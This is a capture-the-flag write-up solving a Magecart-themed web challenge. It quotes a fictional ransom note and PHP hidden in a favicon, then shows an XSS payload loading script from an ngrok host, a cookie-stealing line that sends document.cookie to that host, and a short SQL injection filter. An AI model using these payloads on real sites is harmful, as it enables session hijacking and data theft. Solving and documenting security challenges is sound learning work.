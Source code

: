 # Level 4 -  The Magician's Den

> One day, the admin of Apple Story Pte Ltd received an anonymous email.
>
> \===&#x20;
>
> Dear admins of Apple Story, We are PALINDROME.&#x20;
>
> We have took control over your system and stolen your secret formula!&#x20;
>
> Do not fear for we are only after the money.&#x20;
>
> Pay us our demand and we will be gone.&#x20;
>
> For starters, we have denied all controls from you.&#x20;
>
> We demand a ransom of 1 BTC to be sent to 1BvBMSEYstWetqTFn5Au4m4GFg7xJaNVN2 by 31 Dec 2021.&#x20;
>
> Do not contact the police or seek for help.&#x20;
>
> Failure to do so and the plant is gone.&#x20;
>
> We planted a monitoring kit so do not test us.&#x20;
>
> Remember 1 BTC by 31 dec 2021 and we will be gone. Muahahahaha.
>
> Regards, PALINDROME
>
> \===
>
> Management have just one instruction. Retrieve the encryption key before the deadline and solve this.
>
> http://wp6p6avs8yncf6wuvdwnpq8lfdhyjjds.ctf.sg:14719
>
> Note: Payloads uploaded will be deleted every 30 minutes.

### Finding the Target Server

From the challenge name and this photo, we could gather that this challenge was inspired by Magecart!

![](<../../.gitbook/assets/Screenshot 2021-11-19 at 8.06.30 PM.png>)

We were also hinted to look into Magecart's [past TTPs](https://www.darkreading.com/attacks-breaches/magecart-how-its-attack-techniques-evolved). I initially thought of card skimming JavaScript, but after taking a look at the page contents, this seemed rather unlikely (the only JavaScript was for the countdown timer).

This bit about Favicons was quite interesting, though, so I decided to look into it.

![](<../../.gitbook/assets/Screenshot 2021-11-19 at 8.10.46 PM.png>)

It appears that the webpage's Favicon does indeed include some code!

![](../../.gitbook/assets/7ca9795e30414e18b9c16b8949f02c74.png)

The base64 payload decodes to

```php
$ch=curl_init();
curl_setopt($ch,CURLOPT_URL,"http://s0pq6slfaunwbtmysg62yzmoddaw7ppj.ctf.sg:18926/xcvlosxgbtfcofovywbxdawregjbzqta.php");
curl_setopt($ch,CURLOPT_POST,1);
curl_setopt($ch,CURLOPT_POSTFIELDS,"14c4b06b824ec593239362517f538b29=Hi%20from%20scada");
$server_output=curl_exec($ch);
```

We found a new endpoint, and we know that we can send POST requests to it!

### Authenticating as the Admin

Exploring a bit more, we can also find out the following:

1. When POST-ing data to the server, the data is saved to a HTML file.
2. `http://s0pq6slfaunwbtmysg62yzmoddaw7ppj.ctf.sg:18926/data.php` lists all the recent HTML files.
3. The files are read by the admin.
4. We can perform an XSS on the admin.

![](../../.gitbook/assets/36e6f00685104e69993835240f25d59a.png)

I sent the following HTML payload:

```html
Hi from scada
<script src="https://bf25-115-66-195-39.ngrok.io/exploit.js"></script>
```

On the exploit server, the following cookie stealing payload is hosted on `exploit.js`:

```javascript
document.location.href = "https://bf25-115-66-195-39.ngrok.io/?" + document.cookie;
```

This allows us to obtain the admin cookie.

### Getting the Flag

In the `robots.txt` file, we discover some interesting entries.

![](../../.gitbook/assets/dd681de414c94edb80ba81fd4bc853ac.png)

The `login.php` endpoint redirects to `landing_admin.php` once we have authenticated as the admin. We also learnt that we can set `?debug=TRUE`.

![](../../.gitbook/assets/5d7bf7812d0a4de5ae5258056dee66b9.png)

Here, we need to exploit an SQL injection to obtain the flag. The debug parameter helps us to see SQL errors! The challenge is that the filter can only be 7 characters long, so we have to get creative.

I ended up with `filter='or'1'#`. Spaces were not needed between strings, the `'1'` string evaluates to a boolean True, and the `#` comments out the rest of the query to prevent errors.

![](../../.gitbook/assets/cb977d0b27e74864b867b2a99f720931.png)
